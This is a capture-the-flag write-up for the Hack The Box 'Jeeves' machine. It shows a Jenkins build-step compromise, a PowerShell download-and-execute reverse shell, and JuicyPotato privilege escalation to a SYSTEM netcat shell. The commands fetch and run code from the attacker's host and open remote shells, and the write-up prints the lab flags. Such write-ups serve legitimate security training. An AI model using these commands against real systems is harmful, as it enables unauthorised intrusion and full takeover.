








# Resolution summary

>[!summary]
>- File server on ports 50000 exposes a **Jenkins** installation
>- Abusing **building Jenkins function** it is possible to get a low privileged shell
>- User is provided with **SeImpersonatePrivilege** privilege, allowing to impersonate System and get an high privileged shell
>- Flag is hidden using **alternate data stream**

## Improved skills

- Jenkins exploitation
- SeImpersonatePrivilege exploitation
- Retrieve data hidden with alternate data stream

## Used tools

- nmap
- ffuf
- nishang
- impecket-smbserver
- JuicyPotato

---

# Information Gathering

Scanned all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Jeeves]
└─$ sudo nmap -p80,135,445,50000 10.10.10.63 -sT -sV -sC -Pn -oN scans/open-ports.txt   
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-20 12:51 EDT
Nmap scan report for 10.10.10.63
Host is up (0.053s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 5h06m37s, deviation: 0s, median: 5h06m36s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-20T21:58:06
|_  start_date: 2021-04-20T20:05:39

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.61 seconds
```

# Enumeration

## Port 80 - HTTP (Microsoft-IIS/10.0)



Enumerated files and directories:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Jeeves]
└─$ ffuf -u http://10.10.10.63/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt                        

 :: Method           : GET
 :: URL              : http://10.10.10.63/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

index.html              [Status: 200, Size: 503, Words: 38, Lines: 17]
style.css               [Status: 200, Size: 3744, Words: 1041, Lines: 147]
error.html              [Status: 200, Size: 50, Words: 4, Lines: 2]
.                       [Status: 200, Size: 503, Words: 38, Lines: 17]
```

## Port 50000 - HTTP (Jetty(9.4.z-SNAPSHOT))



Servlet version: 3.1



Enumerated files and directories:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/SecNotes/exploit]
└─$ ffuf -u http://10.10.10.63:50000/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e xml,json

 :: Method           : GET
 :: URL              : http://10.10.10.63:50000/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Extensions       : xml json 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

askjeeves               [Status: 302, Size: 0, Words: 1, Lines: 1]
```

### askjeeves

Redirect to Jenkins:



# Exploitation

## Code Execution using Jenkins’s build feature

Create new item:



Set which command execute during building phase:



Build the item:





Serve the staged reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Jeeves/exploit]
└─$ cp /opt/post-expl/windows/nishang/Shells/Invoke-PowerShellTcp.ps1 revshell.ps1
  
┌──(kali㉿kali)-[~/…/HTB/box/Jeeves/exploit]
└─$ echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 443' >> revshell.ps1
  
┌──(kali㉿kali)-[~/…/HTB/box/Jeeves/exploit]
└─$ sudo python3 -m http.server 80 
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.63 - - [20/Apr/2021 14:39:59] "GET /revshell.ps1 HTTP/1.1" 200 -
```

Payload:

```powershell
powershell.exe -exec bypass -nop IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.14/revshell.ps1')
```

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Jeeves/exploit]
└─$ sudo nc -nlvp 443 
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.63] 49677
Windows PowerShell running as user kohsuke on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\.jenkins\workspace\revshell>whoami
jeeves\kohsuke
```

# Privilege Escalation

## Local enumeration

Users info:

```powershell
PS C:\Users\kohsuke\Desktop> net user

User accounts for \\JEEVES

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
kohsuke                  
The command completed successfully.

PS C:\Users\kohsuke\Desktop> whoami /priv 

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

PS C:\Users\kohsuke\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288
```

## SeImpersonatePrivilege privilege escalation

Download JuicyPotato and netcat binaries:

- https://github.com/ohpe/juicy-potato
- [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

```powershell
PS C:\Users\kohsuke\downloads> Invoke-WebRequest -Uri 10.10.14.14/JP_x64.exe -OutFile JP.exe
PS C:\Users\kohsuke\downloads> Invoke-WebRequest -Uri 10.10.14.14/nc.exe -OutFile nc.exe
```

Extract valid CLSID:

```powershell
PS C:\Users\kohsuke\download> New-PSDrive -Name HKCR -PSProvider Registry -Root HKEY_CLASSES_ROOT

WARNING: column "CurrentLocation" does not fit into the display and was removed
.

Name           Used (GB)     Free (GB) Provider      Root                      
----           ---------     --------- --------      ----                      
HKCR                                   Registry      HKEY_CLASSES_ROOT

PS C:\Users\kohsuke\download> $CLSID = Get-ItemProperty HKCR:\clsid\* | select-object AppID,@{N='CLSID'; E={$_.pschildname}} | where-object {$_.appid -ne $null}
PS C:\wamp\www\PHP\spoiler\fileManager\collectives\DG0\custom-uploads> echo $CLSID > CLSID.list

# Download the file locally and "clean it"
$ awk '{print $2}' CLSID.list | tr -d '\000' > CLSID_only.list
```

Testing valid CLSIDs:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Jeeves/exploit]
└─$ cat test_clsid.bat
@echo off
:: Starting port, you can change it
set /a port=10000
SETLOCAL ENABLEDELAYEDEXPANSION

FOR /F %%i IN (CLSID_only.list) DO (
   echo %%i !port!
   .\JP.exe -z -l !port! -c %%i >> result.log
   set RET=!ERRORLEVEL!
   :: echo !RET!
   if "!RET!" == "1"  set /a port=port+1
)

┌──(kali㉿kali)-[~/…/HTB/box/Jeeves/exploit]
└─$ ls    
CLSID.list  CLSID_only.list  revshell.ps1  test_clsid.bat
          
┌──(kali㉿kali)-[~/…/HTB/box/Jeeves/exploit]
└─$ sudo impacket-smbserver kali . -smb2support             
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
```

```powershell
C:\users\kohsuke\downloads>copy \\10.10.14.14\kali\CLSID_only.list CLSID_only.list
copy \\10.10.14.14\kali\CLSID_only.list CLSID_only.list
        1 file(s) copied.

C:\users\kohsuke\downloads>copy \\10.10.14.14\kali\test_clsid.bat test_clsid.bat
copy \\10.10.14.14\kali\test_clsid.bat test_clsid.bat
        1 file(s) copied.

C:\users\kohsuke\downloads>.\test_clsid.bat
.\test_clsid.bat
{00021401-0000-0000-C000-000000000046} 10000
{000C101C-0000-0000-C000-000000000046} 10000
{0010890e-8789-413c-adbc-48f5b511b3af} 10000
{00f2b433-44e4-4d88-b2b0-2698a0a91dba} 10000
...
C:\users\kohsuke\downloads>type result.log
type result.log
{0289a7c5-91bf-4547-81ae-fec91a89dec5};JEEVES\kohsuke
{03ca98d6-ff5d-49b8-abc6-03dd84127020};NT AUTHORITY\SYSTEM
{0fb40f0d-1021-4022-8da0-aab0588dfc8b};NT AUTHORITY\LOCAL SERVICE
{1BE1F766-5536-11D1-B726-00C04FB926AF};NT AUTHORITY\LOCAL SERVICE
{1ecca34c-e88a-44e3-8d6a-8921bde9e452};NT AUTHORITY\SYSTEM
{204810b9-73b2-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{2e5e84e9-4049-4244-b728-2d24227157c7};NT AUTHORITY\LOCAL SERVICE
{30766BD2-EA1C-4F28-BF27-0B44E2F68DB7};NT AUTHORITY\SYSTEM
{3c6859ce-230b-48a4-be6c-932c0c202048};NT AUTHORITY\SYSTEM
{42CBFAA7-A4A7-47BB-B422-BD10E9D02700};NT AUTHORITY\SYSTEM
{4661626C-9F41-40A9-B3F5-5580E80CB347};NT AUTHORITY\SYSTEM
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
{4B6C85F1-A6D9-433A-9789-89EA153626ED};NT AUTHORITY\SYSTEM
{4d233817-b456-4e75-83d2-b17dec544d12};NT AUTHORITY\SYSTEM
{659cdea7-489e-11d9-a9cd-000d56965251};NT AUTHORITY\SYSTEM
{69AD4AEE-51BE-439b-A92C-86AE490E8B30};NT AUTHORITY\SYSTEM
{6CF9B800-50DB-46B5-9218-EACF07F5E414};NT AUTHORITY\SYSTEM
{6d18ad12-bde3-4393-b311-099c346e6df9};NT AUTHORITY\SYSTEM
{6d8ff8d2-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8dc-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8dd-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8df-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8e0-730d-11d4-bf42-00b0d0118b56};JEEVES\kohsuke
{6d8ff8e1-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8e5-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8e7-730d-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{6d8ff8e8-730d-11d4-bf42-00b0d0118b56};JEEVES\kohsuke
{7D096C5F-AC08-4F1F-BEB7-5C22C517CE39};NT AUTHORITY\SYSTEM
{8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM
{9678f47f-2435-475c-b24a-4606f8161c16};JEEVES\kohsuke
{97061DF1-33AA-4B30-9A92-647546D943F3};NT AUTHORITY\SYSTEM
{98068995-54d2-4136-9bc9-6dbcb0a4683f};JEEVES\kohsuke
{9acf41ed-d457-4cc1-941b-ab02c26e4686};JEEVES\kohsuke
{9E175B68-F52A-11D8-B9A5-505054503030};NT AUTHORITY\SYSTEM
{9E175B6D-F52A-11D8-B9A5-505054503030};NT AUTHORITY\SYSTEM
{A47979D2-C419-11D9-A5B4-001185AD2B89};NT AUTHORITY\LOCAL SERVICE
{A9B5F443-FE02-4C19-859D-E9B5C5A1B6C6};NT AUTHORITY\SYSTEM
{B31118B2-1F49-48E5-B6F5-BC21CAEC56FB};NT AUTHORITY\SYSTEM
{B52D54BB-4818-4EB9-AA80-F9EACD371DF8};NT AUTHORITY\SYSTEM
{bb6df56b-cace-11dc-9992-0019b93a3a84};NT AUTHORITY\SYSTEM
{C49E32C6-BC8B-11d2-85D4-00105A1F8304};NT AUTHORITY\SYSTEM
{CBC04AF1-25C7-4A4D-BB78-28284403510F};NT AUTHORITY\SYSTEM
{E48EDA45-43C6-48e0-9323-A7B2067D9CD5};NT AUTHORITY\SYSTEM
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM
{E63DE750-3BD7-4BE5-9C84-6B4281988C44};NT AUTHORITY\SYSTEM
{F087771F-D74F-4C1A-BB8A-E16ACA9124EA};NT AUTHORITY\SYSTEM
```

Get SYSTEM reverse shell:

```bash
C:\users\kohsuke\downloads>.\JP.exe -l 9001 -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020} -a "/c C:\users\kohsuke\downloads\nc.exe 10.10.14.14 443 -e cmd.exe" -p cmd.exe
.\JP.exe -l 9001 -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020} -a "/c C:\users\kohsuke\downloads\nc.exe 10.10.14.14 443 -e cmd.exe" -p cmd.exe
Testing {03ca98d6-ff5d-49b8-abc6-03dd84127020} 9001
......
[+] authresult 0
{03ca98d6-ff5d-49b8-abc6-03dd84127020};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

Catch the reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Jeeves/exploit]
└─$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.63] 50409
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami && hostname
whoami && hostname
nt authority\system
Jeeves

C:\Users\Administrator\Desktop>dir hm.txt
dir hm.txt
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\Administrator\Desktop

12/24/2017  03:51 AM                36 hm.txt
               1 File(s)             36 bytes
               0 Dir(s)   7,415,410,688 bytes free

C:\Users\Administrator\Desktop>type hm.txt
type hm.txt
The flag is elsewhere.  Look deeper.
```

### Alternate data stream

[Introduction to Alternate Data Streams](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/)

```powershell
C:\Users\Administrator\Desktop>dir /R
dir /R
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   7,415,410,688 bytes free

C:\Users\Administrator\Desktop>type hm.txt:root.txt:$DATA
type hm.txt:root.txt:$DATA
The filename, directory name, or volume label syntax is incorrect.

C:\Users\Administrator\Desktop>more < hm.txt:root.txt:$DATA
more < hm.txt:root.txt:$DATA
afbc5bd4b615a60648cec41c6ac92530
```

# Trophy

>[!quote]
>Mama always said "Life was like a box of chocolates, you never know what you're gonna get.”
>
\- Forrest Gump 

>[!success]
>**User.txt**
>e3232272596fb47950d59c4cf1e7066a

>[!success]
>**Root.txt**
>afbc5bd4b615a60648cec41c6ac92530

